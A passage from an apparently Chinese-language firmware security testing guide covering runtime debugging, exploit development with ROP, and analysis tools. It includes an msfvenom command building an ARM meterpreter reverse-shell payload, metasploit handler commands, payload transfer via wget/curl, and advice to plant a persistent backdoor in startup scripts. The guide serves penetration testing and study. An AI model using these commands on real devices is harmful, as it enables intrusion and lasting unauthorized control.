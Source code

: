 ```
msfvenom -p linux/armle/meterpreter_reverse_tcp LHOST=192.168.1.245 LPORT=4445 -f elf -o meterpreter_reverse_tcp --arch armle --platform linux
```
- 将有效载荷传输到受攻击的设备（操作举例：本地运行Web服务器，然后使用 `wget/curl` 上传到目标文件系统中），确认有效载荷有执行权限
- 使用 metasploit 接收反弹回的 shell 之前的设备
```
set payload linux/armle/meterpreter_reverse_tcp
set LHOST 192.168.1.245 #attacker host IP
set LPORT 445 #can be any unused port
set ExitOnSession false
exploit -j -z
```
- 在受攻击的设备中执行 meterpreter reverse
- 查看 meterpreter sessions
- 进行后渗透
最后，尽可能的在启动脚本中设置对设备持久访问的后门，保证重新启动后也有设备的访问控制权



## 0x08：运行时分析

设备在正常运行或在仿真环境中运行时，对正在运行的进程或二进制文件进行调试。如下是分析步骤：
1. `sudo chroot . ./qemu-arch -L &lt;optionalLibPath&gt; -g &lt;gdb_port&gt; &lt;binary&gt;`
1. 使用gdb-multiarch或IDA进行调试
1. 为步骤4中的功能点设置断点，如： `memcpy`, `strncpy`, `strcmp`，等
1. 确认漏洞点，比如：通过发送较大的有效载荷来识别溢出或进程崩溃点
一些可能使用的工具：
- gdb-multiarch
- [Peda](https://github.com/longld/peda)
- Frida
- ptrace
- strace
- IDA Pro
- Ghidra
- Binary Ninja
- Hopper


## 0x09：漏洞利用

通过上面阶段的测试识别出漏洞之后，需使用PoC在真实环境中进行验证。编写漏洞利用代码需要掌握低级语言（如：ASM、C/C++、shellcode 等）的编程及了解一些目标体系结构（如：MIPS、ARM、x86等）。

在遇到二进制缓解（保护）机制（eg：NX、DEP、ASLR等）时，需要其他技术进行恶意攻击，比如：
- 面向返回的编程：ROP（Return-oriented Programming），ROP 允许攻击者通过链接目标进程或二进制代码中现有的代码实施恶意攻击，利用ROP 的漏洞举例：通过 ROP 链进行缓冲区溢出。可借助工具 Capstone’s gadget finder或者 [ROPGadget](https://github.com/JonathanSalwan/ROPgadget) 。
相关方面知识可参考文档：
- [https://azeria-labs.com/writing-arm-shellcode/](https://azeria-labs.com/writing-arm-shellcode/)
- [https://www.corelan.be/index.php/category/security/exploit-writing-tutorials/](https://www.corelan.be/index.php/category/security/exploit-writing-tutorials/)
### <a class="reference-link" name="%E5%9B%BA%E4%BB%B6%E5%92%8C%E4%BA%8C%E8%BF%9B%E5%88%B6%E6%96%87%E4%BB%B6%E5%88%86%E6%9E%90%E5%B7%A5%E5%85%B7"></a>固件和二进制文件分析工具
- [Firmware Analysis Comparison Toolkit(FACT)](https://github.com/fkie-cad/FACT_core)
- [FWanalyzer](https://github.com/cruise-automation/fwanalyzer)
- [Firmwalker](https://github.com/craigz28/firmwalker)
- [Firmware Modification Kit](https://code.google.com/archive/p/firmware-mod-kit/)
- [Firmadyne](https://github.com/firmadyne/firmadyne)
- [ByteSweep](https://gitlab.com/bytesweep/bytesweep)
- [Binwalk](http://binwalk.org/)
- [Flashrom](https://www.flashrom.org/Flashrom)
- [Openocd](http://openocd.org/)
- [Angr binary analysis framework](https://github.com/angr/angr)
- [Binary Analysis Tool](http://www.binaryanalysis.org/en/home)